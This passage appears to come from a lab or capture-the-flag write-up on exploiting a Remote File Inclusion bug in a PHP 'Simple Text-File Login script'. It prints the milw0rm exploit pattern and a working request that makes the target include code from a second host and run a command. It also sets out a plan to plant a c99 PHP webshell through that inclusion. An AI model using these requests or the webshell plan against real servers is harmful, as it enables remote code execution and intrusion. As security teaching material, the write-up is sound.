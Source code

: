 Based on the milw0rm entry, it looks like this code may be vulnerable to a RFI (Remote File Inclusion / Sensitive Data Disclosure bug)

Let’s try the Data Disclosure bug first.   The advisory states that the default username/password file is called slog_users.txt.

Unfortunately this file does not contain what we had expected :

[![image](:/3ffc70bea8e84339a6f6debf487d2dfc "image")](https://www.corelan.be/wp-content/uploads/2010/05/image21.png)

(maybe they renamed the file and changed the filename in slogin_lib.inc.php). We can try to bruteforce these files, but let’s save some time and try to find out if we can use the RFI bug. An RFI bug can lead to a lot of things, including injecting code and run it on the webserver (if we can for example inject it into a file that is used in a vulnerable “include” statement).

A request to [http://192.168.6.66/1/slogin_lib.inc.php](http://192.168.6.66/1/slogin_lib.inc.php) resulted in a 200 OK reply, so the file seems to be there.

The exploit code (milw0rm) indicates that this “Simple Text-File Login script”  file (slogin_lib.inc.php) can be exploited using the following request :

```
[!] EXPLOIT: /[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]
```

> Current time is 3:30am. Time for bed.
> 
> Sunday morning, 10am. Back in business, time to continue work… reading all about the RFI bug, trying out some requests… but nothing seems to work today.

Around 4pm, I tried this :

[http://192.168.6.66/1/slogin\_lib.inc.php?slogin\_path=http://192.168.6.71/&cmd=ls%20-als](http://192.168.6.66/1/slogin_lib.inc.php?slogin_path=http://192.168.6.71/&cmd=ls%20-als)

[![image](:/2aa78d66463648879a7454ab6407708f "image")](https://www.corelan.be/wp-content/uploads/2010/05/image22.png)

[![image](:/f77cac09253f45aeb2dbc7af0433b267 "image")](https://www.corelan.be/wp-content/uploads/2010/05/image23.png)

aha- that looks great. It looks like code can be injected (header.inc.php file) and it would run on the webserver. (header.inc.php is added to the request automatically, so if I host some code in a file called header.inc.php, it would get included by just pointing the parameter to the root of the webserver.

I already figured out I can run commands within the context of the webserver account, but perhaps things can be made a bit easier : inject a full blown php shell.

Plan :

- get a copy of a php webshell (I used c99 but there are many more)
- rename it to header.inc.php,
- host it somewhere so it can be injected into the request
- inject/execute it

Where can I find a webserver for this… ?  I could try to host it on my attacker machine… but there is a better solution.  There’s a webserver (surgemail) available on 192.168.6.70/71/72.   I have ftp write access to that server, so I can just drop some files in the c:\\surgemail\\www folder.
